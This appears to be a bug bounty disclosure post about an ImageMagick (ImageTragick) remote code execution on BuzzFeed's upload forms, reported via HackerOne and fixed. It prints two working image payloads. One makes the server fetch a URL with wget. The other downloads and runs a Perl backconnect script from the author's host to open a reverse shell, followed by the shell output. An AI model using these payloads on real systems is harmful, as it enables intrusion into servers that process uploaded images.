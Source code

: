 ```yaml
---
layout: post
title:  "BuzzFeed Remote Code Execution Vulnerability"
date:   2016-07-27 17:00:00
categories:
    - project
tags:
    - Bug Bounty
    - RCE Vulnerability
    - HackerOne
---
```


We just found some vulnerabiliy on the Buzzfeed.com website. That vulnerabillity infected ImageMagick, an applications that used by Buzzfeed for processing an images that inputted by the user. Through the upload form in Buzzfeed page, an attacker can upload an image file that has been injected by malicious code.

**Infected URLs:**

https://www.buzzfeed.com/post

https://www.buzzfeed.com/settings



#### Malicious Code 1:

~~~
push graphic-context

viewbox 0 0 640 480

fill 'url(https://127.0.0.0/oops.jpg"; wget https://noobsec.org:1337/ping-me ;touch "hello)'

pop graphic-context
~~~


**Response:**

~~~
Connection from 54.208.98.54 port 1337 [tcp/menandmice-dns] accepted
GET /ping-me HTTP/1.1
User-Agent: Wget/1.13.4 (linux-gnu)
Accept: */*
Host: noobsec.org:1337
Connection: Keep-Alive
~~~


#### Malicious Code 2:

~~~
push graphic-context

viewbox 0 0 640 480

fill 'url(https://127.0.0.0/oops.jpg"; cd /tmp && wget https://noobsec.org/backconnect.txt && mv /tmp/backconnect.txt /tmp/n00b.pl && perl /tmp/n00b.pl noobsec.org 1337 ;touch "hello)'

pop graphic-context
~~~


**Response:**

~~~
Connection from 54.87.231.104 port 1337 [tcp/menandmice-dns] accepted
/bin/sh: 0: can't access tty; job control turned off
$ uname –a
Linux buzzfeed-prod-web01 3.2.0-101-virtual [#141](/reports/141)-Ubuntu SMP Thu Mar 10 22:12:23 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
~~~

Exploit code above allow Buzzfeed's servers to connect to the noobsec.org's server through Port 1337, so an attacker can send a command shell to Buzzfeed server (Remote Code Execution).


Timeline

- 23 July 2016 : Report Bug to Buzzfeed
- 27 July 2016 : Buzzfeed respond and ask for details
- 27 July 2016 : Buzzfeed ask to continue disscussion via Hackerone
- 27 July 2016 : Noobsec submit bug in Hackerone
- 28 July 2016 : Buzzfeed confirmed bug has been fixed


Reference:

1. https://imagetragick.com/
2. https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-3714
